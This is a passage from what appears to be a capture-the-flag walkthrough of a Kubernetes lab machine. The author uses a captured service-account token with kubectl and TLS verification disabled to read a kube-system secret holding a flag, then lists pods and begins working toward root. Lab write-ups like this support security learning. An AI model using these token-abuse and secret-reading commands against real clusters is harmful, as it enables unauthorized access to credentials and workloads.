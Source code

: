 After this easy enumeration, we know all the namespaces, and that we have access to all of them!

Now let's get the secret of the `kube-system`, so we can read the flag3!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get secrets flag3 -o yaml -n kube-system
apiVersion: v1
data:
  flag3.txt: Zmx[REDACTED]IX0=
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"flag3","namespace":"kube-system"},"stringData":{"flag3.txt":"flag{[REDACTED]}"},"type":"Opaque"}
  creationTimestamp: "2021-05-31T22:01:30Z"
  name: flag3
  namespace: kube-system
  resourceVersion: "591"
  uid: 599c6a8b-2a93-4253-a02c-6c0a7eccdc3f
type: Opaque
```

## Root / Flag 4

After submitting the flag3, let's try to finish this machine, getting our way to "root"!

First let's get all the pods, and the information of them!
```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pods                                  ─╯
NAME                     READY   STATUS    RESTARTS   AGE
gitea-0                  1/1     Running   2          147d
nginx-7f459c6889-8slv2   1/1     Running   2          147d


╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pod nginx-7f459c6889-8slv2 -o yaml    ─╯
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: "2021-05-31T21:57:34Z"
  generateName: nginx-7f459c6889-
  labels:
    app: nginx
    pod-template-hash: 7f459c6889
  name: nginx-7f459c6889-8slv2
[...]
  containerStatuses:
  - containerID: containerd://0a3ab874a77bbbaf2767c915a76d202d9179f70d635e35c429d2806ca2fde4fa
    image: docker.io/library/nginx:latest
    imageID: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    lastState:
      terminated:
        containerID: containerd://11b48c2a2652638f80a7376f6c2ad107e4040f8348b301db5d24c80226d57665
[...]
```
We have a docker container running a nginx image on this pod! _As I supposed before!_ 

